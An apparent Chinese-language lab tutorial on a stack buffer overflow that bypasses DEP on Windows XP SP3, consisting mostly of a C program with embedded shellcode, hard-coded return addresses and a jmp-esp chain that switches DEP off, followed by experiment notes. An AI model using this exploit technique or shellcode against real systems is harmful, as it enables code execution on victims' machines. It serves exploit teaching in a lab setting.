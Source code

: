 <pre><code>
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;stdio.h&gt;
#include &lt;windows.h&gt;

char shellcode[] = 
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
    "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
    "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
    "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
    "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
    "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
    "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
    "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x52\xE2\x92\x7C"		// MOV EAX, 1   RETN地址
	"\x85\x8B\x1D\x5D"		// 修正EBP
	"\x19\x4A\x97\x7C"		// 增大ESP
	"\xB4\xC1\xC5\x7D"		// jmp esp
	"\x24\xCD\x93\x7C"		// 关闭DEP代码的起始位置
	"\xE9\x33\xFF\xFF\xFF\x90\x90\x90";	// 回跳指令

void test()
{
	char str[176];
	//__asm int 3
	strcpy(str, shellcode);
}

int main()
{
	HINSTANCE hInst = LoadLibrary("shell32.dll");
	char temp[200];
	test();
	return 0;
}
</code></pre>

#### 1.3  Windows XP SP3实验内容

<b>实验思路：</b>
1. 为了更直观，将不启用GS和SafeSEH
2. 函数test存在典型的溢出，通过向str复制超长字符串造成str溢出，进而覆盖函数返回地址
3. 将函数的返回地址覆盖为类似MOV AL,1 retn的指令，在将AL置1后转入0x7C93CD24关闭DEP
4. DEP关闭后shellcode就可以正常执行

<b>实验环境</b>

||推荐使用环境|备注|
|--|--|--|
|操作系统|Windows XP SP3| |
|DEP状态|Optout||
|编译器|VC 6.0||
|编译选项|禁用优化选项||
|build版本|debug版本||
